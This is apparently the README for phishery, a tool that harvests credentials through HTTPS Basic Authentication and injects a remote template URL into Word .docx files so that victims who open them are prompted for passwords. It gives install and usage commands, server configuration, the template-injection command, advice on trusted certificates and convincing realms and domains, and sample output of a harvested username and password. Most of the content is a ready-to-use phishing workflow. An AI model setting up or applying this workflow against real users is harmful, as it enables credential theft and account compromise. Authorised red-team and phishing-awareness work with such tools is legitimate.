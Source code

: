 # phishery

Phishery is a Simple SSL Enabled HTTP server with the primary purpose of phishing credentials via Basic Authentication. 
Phishery also provides the ability easily to inject the URL into a .docx Word document.

![Basic Auth Dialog in Word](https://raw.githubusercontent.com/ryhanson/phishery/master/screenshots/PhisheryDialog.jpg "Basic Auth Dialog in Word")

The power of phishery is best demonstrated by setting a Word document's template to a phishery URL. This causes 
Microsoft Word to make a request to the URL, resulting in an Authentication Dialog being shown to the end-user. The
ability to inject any .docx file with a URL is possible using phishery's 
`-i [in docx]`, `-o [out docx]`, and `-u [url]` options.

### Download
Operating system specific packages can be [downloaded from here](https://github.com/ryhanson/phishery/releases).

### Install
Extract the archive, and optionally, install binary to $PATH

```bash
$ tar -xzvf phishery*.tar.gz
$ cd phishery*
$ cp phishery /usr/local/bin
```

### Usage
```text
$ phishery --help

|\   \\\\__   O         __    _      __
| \_/    o \  o  ____  / /_  (_)____/ /_  ___  _______  __
> _   (( <_ oO  / __ \/ __ \/ / ___/ __ \/ _ \/ ___/ / / /
| / \__+___/   / /_/ / / / / (__  ) / / /  __/ /  / /_/ /
|/     |/     / .___/_/ /_/_/____/_/ /_/\___/_/   \__, /
             /_/ Basic Auth Credential Harvester (____/
                 with Word Doc Template Injector

  Start the server  : phishery -s settings.json -c credentials.json
  Inject a template : phishery -u https://secure.site.local/docs -i good.docx -o bad.docx

  Options:
    -h, --help      Show usage and exit.
    -v              Show version and exit.
    -s              The JSON settings file used to setup the server. [default: "settings.json"]
    -c              The JSON file to store harvested credentials. [default: "credentials.json"]
    -u              The phishery URL to use as the Word document template.
    -i              The Word .docx file to inject with a template URL.
    -o              The new Word .docx file with the injected template URL.
```

##### Running the server
Modify the provided settings.json file as needed, by default it should look like this:

```json
{
  "ip": "0.0.0.0",
  "port": "443",
  "sslCert": "server.crt",
  "sslKey": "server.key",
  "basicRealm": "Secure Document Gateway",
  "responseStatus": 200,
  "responseFile": "template.dotx",
  "responseHeaders": [
    ["Content-Type", "application/vnd.openxmlformats-officedocument.wordprocessingml.template"]
  ]
}
```

This setup will start the HTTP server on Port *443* with SSL configured to use *server.crt* and *server.key*. 
The basic authentication realm is set to *Secure Document Gateway*.
When any credentials are provided, a *200* response status is sent along with the contents of the included *template.dotx* and
the content type header: *Content-Type: application/vnd.openxmlformats-officedocument.wordprocessingml.template*.

The settings file may also be configured to output a simple body, by using *responseBody*, like this:

```json
{
  "ip": "0.0.0.0",
  "port": "443",
  "sslCert": "server.crt",
  "sslKey": "server.key",
  "basicRealm": "Secure Document Gateway",
  "responseStatus": 404,
  "responseBody": "<h1>Not Found</h1>",
  "responseHeaders": [
    ["Content-Type", "text/html"]
  ]
}
```

The effectiveness of this tool is based mostly on the Domain and Basic Auth Realm used, as that is often all the end user 
will see when triggered from an Office document. Make sure to point your DNS A Records the public IP of the phishery server.

It's recommended that the provided cert is replaced with a trusted one, such as one generated with 
[LetsEncrypt](https://github.com/certbot/certbot). Microsoft Word on OS X will prevent the auth dialog if the cert is invalid, and Microsoft Word on Windows will prompt the user to accept the invalid certificate.

Once the server is configured and running, all you need to do is embed a phishery URL in a document, or anywhere
else your heart desires. phishery does give you the ability to inject your URL into a Word document as a template, 
instructions on how to do this can be found below.

##### Injecting a Word Document
To inject a Word document with a template URL, you'll need a .docx file and the phishery server URL.

Now run phishery with your document and URL:

```text
$ phishery -u https://secure.site.local/docs -i good.docx -o bad.docx
[+] Opening Word document: good.docx
[+] Setting Word document template to: https://secure.site.local/docs
[+] Saving injected Word document to: bad.docx
[*] Injected Word document has been saved!
```

Make sure your phishery server is running and available at the URL you used. Now when the Word document
is opened, the victim will be prompted with an authentication dialog.

Now when the victim opens the document, you'll see the following:

```text
$ ./phishery
[+] Credential store initialized at: credentials.json
[+] Starting HTTPS Auth Server on: 0.0.0.0:443
[*] Request Received at 2016-09-25 01:06:28: HEAD https://secure.site.local/docs
[*] Sending Basic Auth response to: 127.0.0.1
[*] New credentials harvested!
[HTTP] Host        : secure.example.local
[HTTP] Request     : /docs
[HTTP] User Agent  : Microsoft Office Word
[HTTP] IP Address  : 127.0.0.1
[AUTH] Username    : john.doe
[AUTH] Password    : Summer15
```
